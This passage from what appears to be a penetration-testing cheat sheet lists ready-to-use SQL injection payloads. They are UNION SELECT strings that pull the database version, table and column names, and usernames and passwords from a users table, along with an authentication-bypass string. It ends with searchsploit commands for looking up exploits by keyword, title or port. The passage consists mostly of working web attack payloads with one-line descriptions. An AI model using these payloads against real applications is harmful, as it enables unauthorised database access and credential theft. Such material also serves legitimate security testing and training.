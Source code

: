 6. **Extracting Database Version:**
    This payload retrieves the version of the database.

    ```sql
    ' UNION SELECT @@version, null --
    ```

7. **Retrieving Table Names:**
    This payload extracts the names of all tables in the database.

    ```sql
    ' UNION SELECT table_name, null FROM information_schema.tables --
    ```

8. **Retrieving Column Names:**
    This payload extracts the names of columns from a specific table.

    ```sql
    ' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --
    ```

9. **Dumping User Credentials:**
    This payload retrieves usernames and passwords from a table named users.

    ```sql
    ' UNION SELECT username, password FROM users --
    ```

10. **Commenting Out the Rest of the Query:**
    This payload comments out the remainder of the SQL query, which can be useful in various injection scenarios.

    ```sql
    ' OR '1'='1'/* 
    ```

#### Searchsploit Examples

- **Basic Vulnerability Search:**
    Searches for local exploits related to "afd" on Windows systems.

    ```bash
    searchsploit afd windows local
    ```

- **Title-Specific Search:**
    Searches for exploits related to Oracle on Windows, focusing on titles.

    ```bash
    searchsploit -t oracle windows
    ```

- **Port-Specific Search:**
    Searches for exploits targeting a specific port (39446).

    ```bash
    searchsploit -p 39446
    ```
